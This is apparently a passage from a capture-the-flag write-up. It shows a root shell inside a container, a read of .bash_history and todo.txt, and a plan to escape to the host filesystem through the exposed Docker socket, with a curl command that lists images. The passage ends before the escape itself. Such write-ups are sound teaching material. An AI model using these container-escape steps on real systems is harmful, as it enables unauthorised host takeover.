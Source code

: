 Two files stand out to me: `.bash_history` (as it is not empty) and `todo.txt`. Let us read todo.txt first.

```bash
root@2d24bf61767c:~# cat todo.txt 
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

Seems like our container running SaltStack should eventually be able to spawn docker containers. Let us check out the history file next.

```bash
root@2d24bf61767c:~# cat .bash_history 
[...] 
ls -la /var/run/
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
exit
```

The last couple of lines are the most interesting. Seems like the root user previously communicated with the Docker API using the docker-socket. Let us enumerate docker next

### Exploiting the Docker-API

After a bit of research, I found [this article](https://blog.secureideas.com/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html), which explains how we can exploit our current setup to have read & write access to the host-fs. In order to do so, we have to do following steps:

1. Find an available docker-image we can use
2. Create a container with the host-filesystem mounted into the container
3. Start the container
4. Upgrade the container, so we can send input&output
5. Access the host-fs

Let us begin by listing all available images:

```bash
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json | python -m json.tool
[
    {
        "Containers": -1,
        "Created": 1590787186,
        "Id": "sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e",
        "Labels": null,
        "ParentId": "",
        "RepoDigests": null,
        "RepoTags": [
            "sandbox:latest"
        ],
        "SharedSize": -1,
        "Size": 5574537,
        "VirtualSize": 5574537
    },
    {
        "Containers": -1,
        "Created": 1588544489,
        "Id": "sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9",
        "Labels": null,
        "ParentId": "",
        "RepoDigests": [
            "<none>@<none>"
        ],
        "RepoTags": [
            "<none>:<none>"
        ],
```